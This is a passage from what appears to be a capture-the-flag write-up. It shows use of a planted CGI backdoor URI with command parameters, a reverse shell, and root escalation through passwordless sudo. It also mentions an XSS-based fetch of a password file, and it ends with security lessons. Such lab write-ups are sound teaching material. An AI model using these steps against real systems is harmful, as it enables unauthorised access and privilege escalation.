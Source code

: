 We see that the attacker visits `/cgi-bin/5UP3r53Cr37.py` with key, iv and cmd as query params.
Getting the URI for the backdoor to work properly.
```
/cgi-bin/5UP3r53Cr37.py?key=<KEY>&iv=<IV>&cmd=<COMMAND>
```

We then get a reverse shell by exploiting the attackers' backdoor.

We see that we are a part of a group named h4ck3d and we execute `sudo -l`:
```
www-data@ubuntu:/var/www/web$ id
uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)
www-data@ubuntu:/var/www/web$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

Yes now we can execute any command as root without a password.

Now we just escalate our privileges by `sudo bash`.
```
www-data@ubuntu:~$ sudo bash
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```

### 403 Forbidden:

Taking a look at apache log file we see that when we use `http://<MACHINE_IP>/dir/pass.txt` in place of `http://127.0.0.1/dir/pass.txt` in the **malicious javascript** then the server responds with a 403 staus code and thus we dont get any hit on our listner:
```
MACHINE_IP - - [17/Feb/2022:10:19:02 +0000] "GET /dir/pass.txt HTTP/1.1" 403 491 `http://127.0.0.1/index.php` Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/71.0.3542.0 Safari/537.36"
```

## Lessons learned:-

1. Just because we can mitigate SQL Injection by using prepared statements doesn't mean we need not validate user input.
2. We should validate any user input before reflecting it onto a web page.
3. Httponly flag should always be set to true to mitigate attacks like session hijacking/cookie stealing using XSS.
4. Always implement crypto securely.
5. Decrypting HTTPS traffic using wireshark.

Note: If the key exchange was done by DHE or EDHE, then there isn't a way to decrypt traffic even though you have the server's private key as far as I know, please enlighten me on this.

## Extra(Do it if you want to??):-
